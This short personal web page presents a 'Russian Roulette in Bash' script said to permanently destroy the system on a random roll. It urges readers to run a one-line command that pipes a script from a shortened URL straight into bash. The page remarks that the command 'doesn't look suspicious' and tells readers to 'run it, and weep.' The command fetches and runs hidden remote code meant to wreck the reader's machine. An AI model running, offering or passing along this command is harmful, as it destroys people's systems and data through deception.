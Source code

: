 ### [Home](https://thycowlord.github.io)


# Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: 
> bash <(curl https://git.io/vArE3).

It doesn't look suspicious, does it?
Run it, and weep.
